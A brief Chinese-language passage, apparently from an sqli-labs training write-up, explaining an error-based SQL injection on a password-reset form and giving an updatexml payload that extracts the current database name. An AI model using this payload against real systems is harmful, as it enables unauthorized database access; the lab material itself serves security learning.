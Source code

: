 从php源码上看, 这种类型属于密码重置的报错注入, 密码框填sql注入语句, 账号框要填真实的账号<img src="sqli-labs/1779065-20210224211932880-843178810.png" style="zoom: 50%;" />		



**获取当前数据库:** `' or updatexml(1,concat(0x7e,(select database()),0x7e),0) or '`

![](sqli-labs/1779065-20210224212059814-573670223.png)
